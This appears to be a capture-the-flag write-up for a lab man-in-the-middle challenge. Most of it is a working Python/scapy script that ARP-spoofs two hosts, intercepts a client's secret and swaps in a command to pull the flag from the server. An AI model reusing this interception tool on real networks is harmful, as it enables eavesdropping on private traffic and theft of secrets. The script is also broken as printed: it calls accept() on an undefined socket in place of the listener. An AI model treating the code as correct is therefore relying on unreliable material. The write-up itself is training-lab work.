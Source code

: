 # Problem Statement
Man-in-the-middle traffic from a remote host. The remote host at 10.0.0.2 is communicating with the remote host at 10.0.0.3 on port 31337.

## Observations
  - In this case, using scapy to intercept traffic that isn't addressed to us and respond using raw sockets is a bit of a PITA. We already worked on that in the previous challenge
  - To handle the connections themselves a bit easier, I added PREROUTING rules to the DNAT table so that packets with a dst IP field of 10.0.0.{2,3} are rerouted to 10.0.0.1 instead of dropped.
    - Now we can use regular sockets and focus on the MITM logic.
  - Note that in the code below, when I define server_socket it means that socket *acts* as the server. If I want to send data to the client, then I do `server_socket.sendall(bytes)`, although it sounds a bit weird if you think about it for too long. The same with the client_socket, but viceversa.
## Solution
```
from scapy.all import *

def arp_spoof(victim_ip, impersonated_ip):
    hwsrc = get_if_hwaddr("eth0")
    hwdst = getmacbyip(victim_ip)
    send(ARP(op=2, hwsrc=hwsrc, hwdst=hwdst, psrc=impersonated_ip, pdst=victim_ip))

########################################
############ Legit Flow ################
########################################
# Server listens on on port 31337
# Client connects to 10.0.0.3:31337
# Server sends b"secret: "
# Client reads secret out-of-band
# Client sends bytes(hex(secret))
# Server compares secrets
# Server sends b"command: " and waits for "echo" or "flag" (server decodes)
# Client sends b"echo"
# Both send b"Hello, World!"

########################################
############# MITM Flow ################
########################################
# We listen on on port 31337 and arp spoof client(10.0.0.2)'s cache for 10.0.0.3
# Client connects to us at "10.0.0.3":31337
# We connect to Server at 10.0.0.3:31337
# We read b"secret: " and forward to Client
# Client sends bytes(hex(secret)) to us, we intercept and send to Server
# Server compares secrets
# Server sends b"command: " and waits for "echo" or "flag" (server decodes)
# We send b"flag"
# Both send b"Hello, World!"
########################################

import socket

# ARP Spoof both ways
print("Spoofing 10.0.0.2's cache to impersonate 10.0.0.3")
arp_spoof("10.0.0.2", "10.0.0.3")
print("Spoofing 10.0.0.3's cache to impersonate 10.0.0.2")
arp_spoof("10.0.0.3", "10.0.0.2")

print("Listening for incoming connections")
server_listener = socket.socket()
server_listener.bind(("0.0.0.0", 31337))
server_listener.listen()
server_socket, client_addr = server_socket.accept()
print(f"\tConnection accepted from {client_addr}")

print("Connecting to 10.0.0.3")
client_socket = socket.socket()
client_socket.connect(("10.0.0.3", 31337))
print("\t Connected (probably, if no timeout or other exception was thrown)")

print("\n * MITM is set up *\n\n Waiting for data from Server . . .")
rcv = client_socket.recv(1024)
print(f"Data from server: {rcv.decode()}")
if rcv == b"secret: ":
    print("Server challenge received, forwarding to client")
    server_socket.sendall(b"secret: ")
else:
    print("No challenge received. Aborting")
    exit() 

print("Intercepting secret from client:")
try:
    secret = server_socket.recv(1024)
    print(f"\t Secret intercepted: {secret.decode()}")
except Exception as e:
    print(f"Exception {e} occurred while decoding secret")

client_socket.sendall(secret)
rcv = client_socket.recv(1024)
if rcv == b"command: ":
    print("Server request for command received, asking for flag")
    client_socket.sendall(b"flag")
else:
    print("No command request received. Aborting")
    exit() 
flag = client_socket.recv(1024).decode()
print(f"Flag: {flag}")
```
